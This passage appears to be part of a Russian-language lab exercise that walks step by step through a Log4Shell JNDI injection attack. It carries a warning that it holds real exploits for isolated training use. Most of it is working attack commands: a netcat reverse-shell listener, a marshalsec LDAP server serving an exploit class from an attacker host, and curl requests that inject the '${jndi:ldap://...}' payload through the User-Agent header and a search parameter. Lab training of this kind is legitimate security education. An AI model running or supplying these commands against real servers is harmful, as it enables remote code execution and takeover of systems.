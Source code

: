 ```
4. Соберите информацию о системе

## Предупреждение

⚠️ **ВНИМАНИЕ**: Это упражнение содержит реальные эксплойты. Используйте только в учебных целях в изолированной среде!

## Шаги выполнения

### Шаг 1: Подготовка инфраструктуры
1. Настройте сервер для получения обратной оболочки
2. Подготовьте эксплойт
3. Настройте мониторинг

**Команды для подготовки:**
```bash
# Запуск netcat для прослушивания
nc -lvp 4444

# Создание простого HTTP сервера для эксплойта
python3 -m http.server 8080
```

### Шаг 2: Создание эксплойта
1. Создайте JNDI payload
2. Настройте LDAP сервер
3. Подготовьте обратную оболочку

**Создание эксплойта:**
```bash
# Создание JNDI payload
echo '${jndi:ldap://192.168.100.5:1389/Exploit}' > payload.txt

# Запуск LDAP сервера с эксплойтом
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.100.5:8080/#Exploit"
```

### Шаг 3: Выполнение атаки
1. Отправьте payload на уязвимое приложение
2. Получите обратную оболочку
3. Подтвердите компрометацию

**Команды для атаки:**
```bash
# Отправка payload через HTTP заголовок
curl -H "User-Agent: \${jndi:ldap://192.168.100.5:1389/Exploit}" http://192.168.100.10:8080/

# Отправка через параметр
curl "http://192.168.100.10:8080/search?q=\${jndi:ldap://192.168.100.5:1389/Exploit}"
```
